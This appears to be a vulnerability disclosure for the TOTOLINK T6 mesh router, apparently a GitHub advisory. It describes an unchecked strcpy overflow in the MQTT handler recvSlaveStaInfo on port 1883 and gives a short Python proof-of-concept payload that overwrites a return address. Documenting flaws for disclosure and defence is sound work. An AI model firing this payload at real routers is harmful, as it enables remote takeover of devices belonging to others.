 # Information

**Vendor of the products:** TOTOLINK

**Vendor's website:** [TOTOLINK](https://www.totolink.net/)

**Affected products:** [T6](https://www.totolink.net/home/menu/newstpl/menu_newstpl/products/id/190.html)

**Affected firmware version:** V4.1.5cu.748_B20211015

**Firmware download address:** [Download Page](https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/190/ids/36.html)

# Overview

TOTOLINK Mesh Wifi T6 router has a buffer overflow vulnerability that lead to RCE.

# Vulnerability details

The `T6` routers open `MQTT` service and listen on port `1883`. In function `recvSlaveStaInfo`. The `dest` buffer is 4 bytes, and the `strcpy` doesn't check for the length of input.

![](4/1.png)

![](4/2.png)

An attacker can implement a RCE attack by sending a malicious `MQTT` packet.

![](4/3.png)

# POC

```python
import paho.mqtt.client as mqtt

payload = b"A" * 36 + b"\x37\x33\x33\x13"

client = mqtt.Client()
client.connect("192.168.0.1", 1883, 60)
client.publish("totolink/router/recvSlaveStaInfo",b'{"slavemac":"%s"}' % payload)
```